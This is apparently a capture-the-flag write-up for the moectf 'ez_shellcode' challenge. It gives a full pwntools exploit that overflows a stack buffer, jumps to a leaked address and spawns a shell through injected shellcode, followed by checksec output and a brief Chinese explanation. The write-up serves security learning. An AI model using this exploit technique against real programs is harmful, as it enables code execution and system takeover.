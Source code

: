 # moectf ez_shellcode

```python
from pwn import *
context.terminal = ['wt.exe','wsl']
context.log_level = 'debug'
context.arch = 'amd64'
p = process('./pwn')
p.recvuntil("age")
p.sendline('130')
p.recvuntil("you :\n")
buf_addr = int(p.recvuntil('\n').decode(), 16)
payload = asm(shellcraft.sh()).ljust(0x60+0x8,b'a') + p64(buf_addr)
p.recvuntil("say")
p.send(payload)
p.interactive()
```

## 分析

```shell
❯ checksec pwn
[*] '/home/pwn/pwn/moectf/ez_shellcode/pwn'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```



![image-20250216172734148](./images/image-20250216172734148.png)

可以看到第一个输入名字就是我们的输入长度，然后还将输入地址打印出来，并且还有`RWX`区域，直接写入shellcode就好

